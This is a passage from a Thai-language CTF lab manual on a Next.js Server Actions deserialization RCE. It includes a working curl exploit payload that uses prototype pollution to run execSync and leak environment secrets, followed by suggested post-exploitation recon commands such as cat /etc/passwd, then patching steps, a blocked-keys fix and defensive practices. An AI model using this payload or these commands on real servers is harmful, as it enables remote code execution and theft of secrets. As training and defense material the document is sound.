  -H "Next-Action: x" \
  -F '0={"then":"$1:__proto__:then","status":"resolved_model","reason":-1,
"value":"{\"then\":\"$B1337\"}","_response":{"_prefix":"var res=
process.mainModule.require('"'"'child_process'"'"').execSync(
'"'"'env | grep flag'"'"').toString('"'"'base64'"'"');throw 
Object.assign(new Error('"'"'x'"'"'),{digest:res});",
"_chunks":"$Q2","_formData":{"get":"$1:constructor:constructor"}}}' \
  -F '1="$@0"'
\end{lstlisting}

\subsection{ขั้นตอนที่ 4 — ถอดรหัส Flag}

\begin{lstlisting}[language=bash, caption=ถอดรหัส Base64 จาก digest field]
# สมมติว่าได้ response: 2:{"digest":"Y3Zle..."}
echo "Y3Zle25leHRqcy1mbGlnaHQtcHJvdG9jb2wtaXNzdWV9Cg==" | base64 -d
# cve{nextjs-flight-protocol-issue}
\end{lstlisting}

\newpage

\subsection{ขั้นตอนที่ 5 — สำรวจระบบเพิ่มเติม}

เปลี่ยนคำสั่งภายใน \texttt{execSync()} เพื่อสำรวจระบบ:

\begin{lstlisting}[language=bash, caption=คำสั่งที่แนะนำให้ทดลองใน execSync]
whoami          # ตรวจสอบ User ที่ Server รันอยู่
id              # ตรวจสอบ Group และสิทธิ์
hostname        # ชื่อ Container
uname -a        # ข้อมูล OS
env             # ดู Environment Variable ทั้งหมด
ls -la /app     # โครงสร้างไฟล์ใน Application Directory
cat /etc/passwd # รายชื่อ User ในระบบ
\end{lstlisting}

\newpage

\section{LAB-RCE-DEFENSE}

\subsection{ภาพรวมของ Lab}

Lab นี้ใช้ Ubuntu 24.04 เป็น Base พร้อม SSH Server, tmux และ dev tools ครบชุด จำลองสถานการณ์จริงที่ผู้ดูแลระบบต้องรับมือกับช่องโหว่ที่เพิ่งค้นพบ:

\begin{table}[ht]
    \centering
    \caption{ข้อมูลสำหรับเข้าถึง LAB-RCE-DEFENSE}
    \vspace{0.3cm}
    \begin{tabular}{ll}
        \toprule
        \textbf{รายการ} & \textbf{ค่า} \\
        \midrule
        User / Password & \texttt{secspace} / \texttt{secspace} \\
        Root Password & \texttt{supersecret\_password} \\
        SSH Port & 2222 \\
        App Port & 3000 \\
        App Path & \texttt{/home/secspace/app} \\
        Next.js Version & 15.0.4 (มีช่องโหว่) \\
        Node.js Version & 20.18.0 \\
        Secret File & \texttt{/home/secspace/app/.rng\_secret} \\
        \bottomrule
    \end{tabular}
    \label{tab:defense_info}
\end{table}

สิ่งที่ Lab ตั้งค่าไว้:
\begin{itemize}[leftmargin=1.5cm]
    \item Next.js 15.0.4 รันใน Dev Mode ผ่าน \textbf{tmux session} ชื่อ \texttt{nextjs}
    \item ไฟล์ \texttt{.rng\_secret} บรรจุ Flag ที่ Exploit จะพยายามดึง
    \item คำสั่ง \texttt{submit} เพื่อตรวจสอบสถานะ (ทั้ง RCE test และ version check)
    \item คำสั่ง \texttt{restart-app} เพื่อ restart Dev Server หลังอัปเกรด
\end{itemize}

\subsection{ขั้นตอนที่ 1 — รัน Lab บนเครื่องตัวเอง (Local)}

\begin{lstlisting}[language=bash, caption=Build และรัน LAB-RCE-DEFENSE]
cd LAB-RCE-DEFENSE
docker build -t lab-rce-defense .
docker run -d --name rce-defense -p 2222:22 -p 3000:3000 lab-rce-defense
\end{lstlisting}

\subsection{ขั้นตอนที่ 2 — เข้าสู่ระบบผ่าน SSH}

\begin{lstlisting}[language=bash, caption=เชื่อมต่อ Container ผ่าน SSH]
ssh secspace@localhost -p 2222
# Password: secspace

# บน ctf.it.kmitl.ac.th:
ssh secspace@ctf.it.kmitl.ac.th -p PORT_ที่ได้รับ
\end{lstlisting}

\subsection{ขั้นตอนที่ 3 — ตรวจสอบสถานะเริ่มต้น}

\begin{lstlisting}[language=bash, caption=ตรวจสอบสถานะช่องโหว่ครั้งแรก]
submit
\end{lstlisting}

ผลลัพธ์ที่ควรได้ก่อนแก้ไข:
\begin{lstlisting}[caption=ผลลัพธ์จาก submit ก่อนแก้ไข]
[1/3] Detecting Next.js version... v15.0.4
[2/3] Checking server status... OK
[3/3] Testing RSC Flight Protocol RCE...
   X  VERIFICATION FAILED
   RCE attack succeeded! The secret was leaked from the server.
   Next.js v15.0.4 is still vulnerable.
   Hint: Upgrade Next.js -- cd ~/app && npm install next@latest
\end{lstlisting}

\subsection{ขั้นตอนที่ 4 — อัปเกรด Next.js เพื่อแก้ไขช่องโหว่}

\textbf{ตัวเลือกที่ 1: อัปเกรดผ่าน npm (แนะนำ)}
\begin{lstlisting}[language=bash, caption=อัปเกรด Next.js เป็นเวอร์ชันล่าสุด]
cd ~/app
npm install next@latest
\end{lstlisting}

\newpage

\textbf{ตัวเลือกที่ 2: ใช้ Next.js Codemod}
\begin{lstlisting}[language=bash, caption=ใช้ next/codemod ช่วย Upgrade]
cd ~/app
npx @next/codemod@latest upgrade
\end{lstlisting}

\subsection{ขั้นตอนที่ 5 — รีสตาร์ท Dev Server}

\textbf{วิธีที่ 1 (ง่ายที่สุด):}
\begin{lstlisting}[language=bash]
restart-app
\end{lstlisting}

\textbf{วิธีที่ 2 (Manual ผ่าน tmux):}
\begin{lstlisting}[language=bash, caption=รีสตาร์ท Dev Server แบบ Manual]
tmux kill-session -t nextjs
cd ~/app
export RNG_SECRET=$(cat .rng_secret)
tmux new-session -d -s nextjs \
  "export RNG_SECRET=$(cat /home/secspace/app/.rng_secret) && npm run dev"
# รอประมาณ 10-15 วินาที
\end{lstlisting}

\subsection{ขั้นตอนที่ 6 — ยืนยันการแก้ไขและรับ Flag}

\begin{lstlisting}[language=bash]
submit
\end{lstlisting}

ผลลัพธ์เมื่อแก้ไขสำเร็จ:
\begin{lstlisting}[caption=ผลลัพธ์จาก submit หลังอัปเกรด Next.js]
[1/3] Detecting Next.js version... v15.2.4 (or latest)
[2/3] Checking server status... OK
[3/3] Testing RSC Flight Protocol RCE...
   O  VERIFICATION PASSED
   RCE attack was blocked! The secret is safe.
   FLAG: cve{nextjs-flight-protocol-issue-defended}
\end{lstlisting}

% ============================================================
%  CHAPTER 5: DEFENSE
% ============================================================
\chapter{การป้องกันและแนวทางปฏิบัติที่ดี (DEFENSE)}

\section{ทำไมการอัปเกรดจึงแก้ไขช่องโหว่ได้}

Vercel แก้ไขช่องโหว่ใน Next.js 15.1.0 โดยเพิ่มการตรวจสอบ 2 ชั้นใน \texttt{resolveReference()} ของ Flight Deserializer:

\begin{enumerate}
    \item \textbf{Prototype Pollution Prevention:} เพิ่มการตรวจสอบว่า path segment ที่จะ traverse ไม่ใช่ \texttt{\_\_proto\_\_}, \texttt{prototype}, หรือ \texttt{constructor} ถ้าพบ จะ throw Error แทนที่จะ traverse
    \item \textbf{Sanitized Property Access:} เปลี่ยนจาก \texttt{obj[key]} (bracket notation ที่ไม่ปลอดภัย) เป็นการตรวจสอบด้วย \texttt{Object.prototype.hasOwnProperty} ก่อน เพื่อให้แน่ใจว่า property นั้น own property จริง ไม่ใช่ inherited
\end{enumerate}

\begin{lstlisting}[language=bash, caption=หลักการแก้ไขใน Next.js 15.1.0 (simplified pseudocode)]
function traverse(obj, path) {
  for (const key of path.split(':')) {
    obj = obj[key]  // อันตราย! อนุญาต __proto__ และ constructor
  }
  return obj
}
const BLOCKED_KEYS = ['__proto__', 'prototype', 'constructor']
function traverse(obj, path) {
  for (const key of path.split(':')) {
    if (BLOCKED_KEYS.includes(key)) throw new Error('Invalid reference')
    if (!Object.prototype.hasOwnProperty.call(obj, key)) return undefined
    obj = obj[key]
  }
  return obj
}
\end{lstlisting}

\section{แนวทางปฏิบัติที่ดีสำหรับนักพัฒนา}

\begin{itemize}[leftmargin=1.5cm]
    \item \textbf{อัปเดต Framework อย่างสม่ำเสมอ:} โดยเฉพาะ Next.js ควรติดตาม GitHub Security Advisories (\texttt{github.com/vercel/next.js/security/advisories}) และ NVD เพื่ออัปเกรดเมื่อมี Patch
    \item \textbf{Deploy ผ่าน Container เสมอ:} Container จำกัดขอบเขตความเสียหายเมื่อถูก Exploit ได้ มัลแวร์จะอยู่แค่ใน Container Filesystem โดยไม่กระทบ Host
    \item \textbf{ใช้ Principle of Least Privilege:} ตรวจสอบว่า Application รันด้วย Non-root User เสมอ (เหมือนที่ Dockerfile ในโปรเจกต์นี้ใช้ User \texttt{nextjs})
    \item \textbf{Monitor Log สำหรับ Flight Anomaly:} ตั้งค่า Alert เมื่อพบ Request ที่มี Header \texttt{Next-Action} พร้อม Error Response ที่มี Field \texttt{digest} หลายครั้ง
    \item \textbf{ใช้ WAF / Rate Limiting:} จำกัดอัตราการส่ง Request ไปยัง Server Action endpoints
    \item \textbf{Security Testing ใน CI/CD:} ใช้เครื่องมือเช่น \texttt{npm audit} หรือ Snyk เพื่อตรวจสอบ Dependencies ที่มีช่องโหว่โดยอัตโนมัติก่อน Deploy
\end{itemize}

% ============================================================
%  CHAPTER 6: CONCLUSION
% ============================================================
\chapter{สรุปผล (CONCLUSION)}

\section{สิ่งที่เราได้เรียนรู้}

เอกสารนี้ได้พาเราเดินทางจากพื้นฐานของ React Server Components ไปจนถึงการวิเคราะห์ช่องโหว่ระดับวิกฤต โดยสรุปสิ่งที่ได้เรียนรู้มีดังนี้:

\begin{enumerate}
    \item \textbf{React Flight Protocol} เป็นโปรโตคอล Text-based Streaming ที่ใช้ Reference System (\$ prefix) เพื่อเชื่อมโยง Chunks ต่างๆ เข้าด้วยกัน ความสามารถในการ traverse property path ผ่าน \texttt{\$n:a:b:c} คือ feature ที่ทรงพลัง แต่ก็เป็นจุดที่อันตรายหากขาดการ sanitize
    \item \textbf{Server Actions} เปิด Attack Surface ใหม่โดยตรง เพราะเปิดโอกาสให้ External Input เข้าถึง Flight Deserializer ได้ การที่ Next.js 15.0.4 ไม่ตรวจสอบ Action ID ก่อน Deserialize ทำให้ช่องโหว่นี้รุนแรงขึ้น
    \item \textbf{Prototype Pollution + Constructor Chain} เป็น Gadget Chain ที่อาศัยพฤติกรรมเชิงลึกของ JavaScript — Prototype inheritance และ \texttt{Function} constructor — ซึ่งเป็นตัวอย่างที่ดีว่าความรู้ภาษา Programming ลึกๆ มีความสำคัญในด้าน Security
    \item \textbf{Playground} ที่ \texttt{ctf.it.kmitl.ac.th} ช่วยให้สามารถฝึกทั้งฝั่ง Attacker และ Defender ในสภาพแวดล้อมที่ปลอดภัยและเหมือนจริง
\end{enumerate}

\section{บทเรียนหลัก}

ช่องโหว่ระดับวิกฤตมักไม่ได้เกิดจาก ``bug'' ที่ชัดเจน แต่เกิดจากการมองข้าม interaction ระหว่าง features ที่แต่ละอย่างดูปลอดภัยเมื่อมองแยก:

\begin{itemize}[leftmargin=1.5cm]
    \item Property Path Traversal — ฟีเจอร์ที่ดูสมเหตุสมผล
    \item Thenable Detection — พฤติกรรม JavaScript ที่ถูกต้อง
    \item Constructor Access — ส่วนหนึ่งของ JavaScript specification
\end{itemize}

แต่เมื่อนำมาประกอบกัน $\rightarrow$ RCE การทดสอบ Security จึงต้องคิดถึง Composition ของ features ไม่ใช่แค่แต่ละ feature ทีละชิ้น

% ============================================================
%  REFERENCES
% ============================================================
\newpage
\begin{thebibliography}{99}
\addcontentsline{toc}{chapter}{เอกสารอ้างอิง (REFERENCES)}

\bibitem{react2shell}
Vercel Security Advisory. (2025). \textit{Analysis of CVE-2025-55182 (React2Shell) --- Server Actions deserialization vulnerability}. Retrieved from \texttt{https://github.com/vercel/next.js/security/advisories}

\bibitem{nist}
NIST National Vulnerability Database. \textit{CVE-2025-55182 Detail}. Retrieved from \texttt{https://nvd.nist.gov/vuln/detail/CVE-2025-55182}

\bibitem{rsc_protocol}
Meta Open Source. (2024). \textit{React Server Components -- react-server-dom-webpack source code}. Retrieved from \texttt{https://github.com/facebook/react/tree/main/packages/react-server-dom-webpack}

\bibitem{flight_format}
Meta Open Source. (2024). \textit{React Flight Wire Format specification}. Retrieved from \texttt{https://github.com/facebook/react/blob/main/packages/react-client/src/ReactFlightClient.js}

\bibitem{prototype_pollution}
Portswigger Web Security. \textit{Prototype pollution --- Web Security Academy}. Retrieved from \texttt{https://portswigger.net/web-security/prototype-pollution}

\bibitem{nextjs_server_actions}
Vercel Documentation. (2024). \textit{Server Actions and Mutations --- Next.js Docs}. Retrieved from \texttt{https://nextjs.org/docs/app/building-your-application/data-fetching/server-actions-and-mutations}

\bibitem{docker_security}
Docker Documentation. \textit{Docker security best practices}. Retrieved from \texttt{https://docs.docker.com/engine/security/}

\bibitem{function_constructor}
MDN Web Docs. \textit{Function() constructor --- JavaScript Reference}. Retrieved from \texttt{https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/Function/Function}

\end{thebibliography}

\end{document}
